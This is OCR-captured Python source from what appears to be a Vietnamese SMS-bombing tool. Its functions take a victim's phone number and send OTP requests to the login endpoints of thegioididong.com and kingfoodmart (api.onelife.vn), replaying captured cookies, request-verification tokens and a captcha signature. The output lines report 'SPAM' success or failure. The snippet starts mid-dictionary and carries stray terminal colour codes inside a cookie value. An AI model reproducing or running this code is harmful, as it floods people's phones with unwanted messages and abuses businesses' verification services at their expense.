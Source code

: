         '_ce.s': 'v~ \033[1;35mc6e2ca938eaea49c763466ff529031923bcb71d8~ \033[1;35mlcw~ \033[1;35m1722129717030~ \033[1;35mlva~ \033[1;35m1722129695755~ \033[1;35mvpv~ \033[1;35m3~ \033[1;35mv11.fhb~ \033[1;35m1702359951793~ \033[1;35mv11.lhb~ \033[1;35m1702359951795~ \033[1;35mv11.cs~ \033[1;35m127806~ \033[1;35mv11.s~ \033[1;35mbb7354b0-4c7f-11ef-be80-4b611bbe8e1a~ \033[1;35mv11.sla~ \033[1;35m1722129717670~ \033[1;35mlcw~ \033[1;35m1722129717672',
    }
    headers = {
        'Accept': '*/*',
        'Accept-Language': 'vi-VN,vi;q=0.9,fr-FR;q=0.8,fr;q=0.7,en-US;q=0.6,en;q=0.5,ja;q=0.4',
        'Connection': 'keep-alive',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'Origin': 'https://www.thegioididong.com',
        'Referer': 'https://www.thegioididong.com/lich-su-mua-hang/dang-nhap',
        'Sec-Fetch-Dest': 'empty',
        'Sec-Fetch-Mode': 'cors',
        'Sec-Fetch-Site': 'same-origin',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36',
        'X-Requested-With': 'XMLHttpRequest',
        'sec-ch-ua': '"Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"',
        'sec-ch-ua-mobile': '?0',
        'sec-ch-ua-platform': '"Windows"',
    }
    data = {
        'phoneNumber': sdt,
        'isReSend': 'false',
        'sendOTPType': '1',
        '__RequestVerificationToken': 'CfDJ8AFHr2lS7PNCsmzvEMPceBPs1LjJxh5Owv4bKmBI0grR-wL-mwH1sMFTvXZVlrpM2yIqgNr2eSZY5kjPMiERdGovLf265Im0BQHkZfklBfyibZ-Kogh2sSbEG3RTQp553JTgXd-3V1LoeFmsBZnDoe4',
    }
    response = requests.post('https://www.thegioididong.com/lich-su-mua-hang/LoginV2/GetVerifyCode', cookies=cookies, headers=headers, data=data,).json()
    if response ['statusCode'] == 200:
        print(f'[BY: ManhDNg] ~ \033[1;35m TGDĐ SPAM THÀNH CÔNG')
    else:
        print(f'[BY: ManhDang] ~ \033[1;35m TGDĐ SPAM THẤT BẠI')

def kingfoodmart(sdt):
    headers = {
    'sec-ch-ua': '"Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"',
    'domain': 'kingfoodmart',
    'sec-ch-ua-mobile': '?0',
    'authorization': '',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36',
    'content-type': 'application/json',
    'accept': '*/*',
    'Referer': 'https://kingfoodmart.com/',
    'sec-ch-ua-platform': '"Windows"',
    }
    json_data = {
        'operationName': 'SendOtp',
        'variables': {
            'input': {
                'phone': sdt,
                'captchaSignature': 'AWNCXZbkmtm8HOQPn3e-X5kQpLKbMAsrmlLAIhm2NBWvJStQYJ53ScQcbPQJS8o33FMyHYilnbdPtGcTr8ajL0ZA2QytqGB5tnIJsFZAFSPp-dfJKD5N1MQBZxqqp2xPcQfhYD30MZG-ingJCUGidN_b3Rc:U=2cffb4ffa0000000',
            },
        },
        'query': 'mutation SendOtp($input: SendOtpInput!) {\n  sendOtp(input: $input) {\n    otpTrackingId\n    __typename\n  }\n}',
    }
    response = requests.post('https://api.onelife.vn/v1/gateway/', headers=headers, json=json_data).json()